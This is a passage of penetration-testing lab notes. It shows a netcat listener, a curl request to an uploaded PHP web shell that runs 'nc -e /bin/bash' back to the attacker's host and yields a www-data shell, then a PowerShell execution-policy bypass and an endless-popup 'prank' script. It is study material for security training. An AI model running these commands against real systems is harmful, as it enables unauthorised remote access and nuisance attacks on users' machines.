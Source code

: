 We find that nc is installed on the target machine
+ Let's create a netcat listener on port 6666 and attempt to get a reverse shell from the target to our Kali machine
```
kali@kali:~$ nc -lvnp 6666                                                                                    
listening on [any] 6666 ...
```

We now have an active netcat listener in our terminal
+  another terminal session, let's attempt a netcat reverse shell using the web shell that was uploaded by our exploit
```
kali@kali:~$ curl http://192.168.50.11/project/uploads/users/420919-backdoor.php --data-urlencode "cmd=nc -nv 192.168.50.129 6666 -e /bin/bash"
```

The reverse shell is executed through the webshell uploaded by our exploit
+ Let's switch to the netcat listener terminal session to find out if a connection was established from the target
```
kali@kali:~$ nc -lvnp 6666
listening on [any] 6666 ...
connect to [192.168.50.129] from (UNKNOWN) [192.168.50.11] 57956
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
+ The netcat reverse shell successfully connected to our Kali machine, and we are currently the _www-data_ user

The idea of this section is to find the service/application and version of that service to find any pre-existing exploits to compromise the software
+ Also, we must review the exploit code prior to execution to avoid any malicious activity from infecting us or our employer for the penetration te
+ It is important that we gather any necessary information for the exploit usage details, such as the login credentials we used with our exploit

### Enabling Powershell Script Running for Powershell Exploits
``` Powershell
Set-ExecutionPolicy Bypass
```
+ Will need to "Run as Administrator"

Test Powershell Scrip Run Prank (Will save as Hack.ps1)
``` Powershell
Add-Type -AssemblyName PresentationCore,PresentationFramework;$ButtonType = [System.Windows.MessageBoxButton]::Ok;$MessageIcon = [System.Windows.MessageBoxImage]::Error;$MessageBody = "Get Hacked";$MessageTitle = "Got you!";while("true") {$Result=[System.Windows.MessageBox]::Show($MessageBody,$MessageTitle,$ButtonType,$MessageIcon);}
```
+ Start the job:
```
Start-Job -FilePath .\Hack.ps1 -name Hack
```
+ End the job (can also just delete the terminal window)
```
get-job -name Hack | stop-job
```
